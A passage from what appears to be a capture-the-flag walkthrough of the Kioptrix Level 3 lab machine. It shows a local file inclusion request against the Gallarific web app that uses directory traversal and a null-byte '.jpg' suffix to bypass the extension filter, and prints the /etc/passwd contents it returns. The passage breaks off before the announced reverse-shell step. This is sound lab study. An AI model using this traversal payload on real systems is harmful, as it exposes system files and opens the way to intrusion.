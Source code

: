 But we can't make Apache execute a JPG! So we're stuck.

But all is not lost, as Gallarific is also vulnerable to a local file inclusion vulnerability.

# [](#header-4)Exploiting a Local File Inclusion Vulnerability to Execute the Reverse Shell

Visiting the following URL in a web browser results in the disclosure of two useful pieces of information,

`hXXp://kioptrix3.com/index.php?system=../../../../../etc/passwd%00.jpg`

Note the inclusion of `.jpg` after the NULL byte in order to bypass file extension filtering. This will come in to play again soon.

1. The `/etc/passwd` file
2. The path to the installed web application

![image](/assets/kioptrix-level-3-lfi-etc-passwd.png)

And the more readable output:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
mysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
loneferret:x:1000:100:loneferret,,,:/home/loneferret:/bin/bash
dreg:x:1001:1001:Dreg Gevans,0,555-5566,:/home/dreg:/bin/rbash
```